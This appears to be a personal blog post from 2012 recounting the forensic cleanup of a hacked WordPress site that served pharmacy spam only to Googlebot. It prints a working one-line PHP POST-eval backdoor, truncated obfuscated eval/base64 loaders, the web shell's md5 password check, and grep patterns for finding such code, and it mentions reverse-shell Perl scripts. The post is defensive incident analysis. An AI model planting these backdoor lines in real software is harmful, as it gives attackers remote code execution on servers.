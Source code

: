 ```yaml
---
title: Hacked Server
date: 2012-08-23 08:23
layout: article
published: false
---
```


Over the weekend I was informed by a friend that a site I maintain (not mine
personally) was showing up in the Google results as being "malicious". While I
was researching and fixing the problem, I wrote down my thoughts.

---

After hearing this news, I Googled the site's name (it is distinctive, but
shall remain nameless here) and found that it indeed had been flagged by the
Googlebot as having been hacked.

Short backstory: Recently the owners of the site had undergone some serious flack
from a hate group, and had been flagged by this group on the
[Web Of Trust (WOT)](https://www.mywot.com/), a site that warns you of unsafe
websites. The WOT is a really good idea, but this hate group flagged it in
retaliation instead. Because of this, I initially thought that the warning
from Google had set off their alarms, so I didn't take it too seriously.

But throughout the day I had a nagging feeling that not all was right with the
world, and so I found myself signing up for something that (now that I've used
it) I think everyone who ever runs a website should use:
[Google Webmasters](http://www.google.com/webmasters/).

Let me take a minute to tell you why you should be using this awesome tool. First,
it will give you the actual HTML output that Google sees. As I found out later,
the hacked website was *only displaying spam to the Googlebot*, so I never found
it in my other searches. The other reason you should use this tool is because
it will check the status of your installed things (WordPress, etc.) and notify you
when you need to update them. This is incredibly convenient.

After I setup the site with Google Webmasters, I found out that the site
was spewing out things that look like this (of course I renamed the links):

```html
downing <a href="http://site.com">prescription tramadol without</a>
venlafaxine <a href="http://site.com">penegra generic</a>
```

I'm being a little bit of an onscurantist about the sites contents, but suffice to
say that this is definitely not the appropriate content for this site, and at that point
I had to deal with the fact that the server had been compromised.

## The Plan

Typically, a WordPress hack is found by searching for two PHP functions:

* [base64_decode](http://php.net/manual/en/function.base64-decode.php), or
* [eval](http://php.net/manual/en/function.eval.php)

So my initial plan was to search the server for instances of either of those functions using:

```bash
grep -H -r -i 'base64_decode' ~/sitename.com
grep -H -r -i 'eval' ~/sitename.com
```

* `-H` will print the filename instead of the entire line of text where it found the match
* `-r` will search recursively
* `-i` will ignore case (since PHP ignores it we need to do so to have a thorough search)

Doing so brought up quite a few `base64_decode` calls, and many false positives for `eval`
but all of them legitimate. Working with the command line over SSH was difficult, so I
tarred the entire site's contents:

```bash
tar cvzf backup.tgz ~/sitename.com
```

Now I have the files in hand, I can very quickly scan through the files and see if
anything catches my eye, and the very first thing I noticed is the file named `wp_info.php`

WordPress has a very particular naming scheme with all their files, and it looks
like this: `word-word.php` So an underscore looks a little suspicious, and opening
it I find this magical bit:

```php
eval(stripslashes(array_pop($_POST)));
```

That command right there will essentially run _anything_ that is thrown at it by a
POST request. Wow, this is nuts. Also, I don't know why I didn't see it in
the `grep` earlier, but there was probably just too much noise to notice it.

That right there is the likely entry point _after_ the hack, but I want to see
if I can find anything else, so I press on. Even though I am pretty familiar
with the WordPress structure, I downloaded a [fresh WordPress](https://wordpress.org/download/)
install to compare. After browsing around a bit, I found a file in
the `wp-content/uploads` folder named `.cache_tofu.php` that I did not
recognize, and on inspection I found the following at the end of it:

```php
preg_replace("/.*/e","x65x76x61x6c ... x3b",".");
```

Where the dots are I removed about 24,400 characters from the actual thing.
I'm not familiar with the `preg_replace` function, but the
[PHP docs](http://www.php.net/manual/en/function.preg-replace.php)
say it is basically

```php
preg_replace(pattern,replacement,subject)
```

so the code above will interpret to just the middle part:

```
"x65x76x61x6c ... x3b"
```

But if you'll notice, quite a few characters in that set look like `x##` which is the PHP way of
noting characters in [extended unicode](http://www.php.net/manual/en/regexp.reference.unicode.php), so
all you need to do is figure out a way to convert those to normal ASCII and you can read them.

`<sarcasm>`Thankfully`</sarcasm>`, PHP
[plays loose](https://maurus.net/resources/programming-languages/php/)
with the encoding, so we can simply turn it to a string and it will print out. But because
PHP plays loose, you can't do something as simple as `echo "x65x76x61x6c ... x3b";` because
it will actually evaluate whatever is there, assuming it's an `eval` statement, which is
an obvious assumption at this point. So here's what you do:

```php
$myFile = "testFile.txt";
$fh = fopen($myFile, 'w') or die("can't open file");
$stringData = "x65x76 ... x20x3b";
fwrite($fh, $stringData);
fclose($fh);
```

With that, I finally got what I was looking for:

```php
eval(gzinflate(base64_decode('5b19fxq30jD8...
```

This is the standard hack, so now we can unpack the base64 code to see what magic lies
beneath. Again, it probably has some `eval` in it, so just write it to the text file.

Because it uses `gzinflate` we need to do it this way in our above code:

```php
$stringData = gzinflate(base64_decode('5b19f...
```

With that, I get a code that is just over 1,500 lines long:
[pastebin](http://pastebin.com/brR6Jh5f)
or
[hastebin](http://hastebin.com/hipeqoxoho.php).

On reading the code, my jaw hit the floor, and I had to go retrieve
some alcohol to calm my nerves.

---

Alcohol acquired, still a little shook up, going to press on and hope for the best.

So where was I? Oh, right. It is interesting to note that, even within this code, there
are things that are base64 encoded. Upon extracting them, it looks like they are Perl
scripts. Here is one which was labeled `back_connect_p`:
[pastebin](http://pastebin.com/7izktDBV) And here is another which was labeled
`bind_port_p`: [pastebin](http://pastebin.com/7yNrfWT0)

Okay, so this is obviously bad, and in more ways than one: 1) have to look
around for more bad files, 2) based on the script, it would be safe to
assume every password associated with this account (servers, etc.) should
be changed, 3) and I still don't know how this got installed.

Let's start on the last thing first.

So we have this absolutely soul crushing code (did you read it yet? did you understand
how bad it was? it was very bad!) but we don't know how it's run. Looking
at the code, I realized that to run it, all you'd have to do is access it. It's located
in the WordPress uploads folder, so we can simply navigate to it at
`site.com/wp-content/uploads/the_file.php` and we get this:

![Password login of control panel](/article/images/hacked-server/password.png)

Hmmmm. The alcohol is setting in a bit now, and I am starting to feel less like the world
will end, so I am curious what is behind the password?

Looking through the code I find that all it takes is this:

```php
if (md5($_POST['pass']) == 'dcc2630fea8d91fbc38ee0acc48001a6') {
	// execute scary code
}
```

Although rainbow tables and so on exist, I don't have any of that software setup
on this computer, so an md5 lookup is not trivial for me. Instead, I boot up the old
[virtual computer](http://www.unixmen.com/install-lamp-with-1-command-in-ubuntu-1010-maverick-meerkat/)
and run the code directly on a PHP server. Here is the screenshot:

![Control panel](/article/images/hacked-server/control-panel.png)

This is terrible.

So here is what we have so far: There is a script on this site that lets a person
pretty much do what they want.

The question remains, how did the script get there in the first place?

Of course, since I don't operate the site (I was just called in
to clean up the mess) I am not sure what plugins were installed
before, but I am reasonably certain that the people who own the site wouldn't
install a plugin that didn't come from the
[WordPress site](https://wordpress.org/extend/plugins/).

This limits the possible entry points quite a bit.

One weak point in the WP framework shows up if someone changes the folder
permissions of one of the folders. This is addressed quite well in
[this](https://codex.wordpress.org/Changing_File_Permissions)
article. But nobody except myself has SSH access, and only one person
has FTP access. I'll ask him, but he seems reasonably smart so he
probably wouldn't set stupid permissions.

In fact, I can check whether a file is executable or not using `ls -ls` and I can see that
it is not executable. Furthermore, the file itself was last modified in May this year
(2012), although I don't know how long it's been since it was executed. The site
is hosted on a [shared server space](https://dreamhost.com/), which could
even be the problem.

---

At this point I am trying to think of solutions. Since all that's run on this server
is the WordPress install, I can essentially just reinstall the site and verify that
nothing is in the database. The uploads folder can be copied over after I check it.

Being intimately familiar with WordPress I've coached a few people through this
process, and even had to run through it once myself, so I know that it's not too difficult.

Still, the annoyance is huge. And I still don't know what caused the security
breach that allowed that terrible code to get installed.

For tonight I think I have the server locked down enough that I can leave it,
but I think I'll probably reinstall WordPress, it's a pretty fast experience.

## Lesson Learned

You should look for the `eval` function, but you should also look for it
in Unicode, which looks like `x65x76x61x6c`
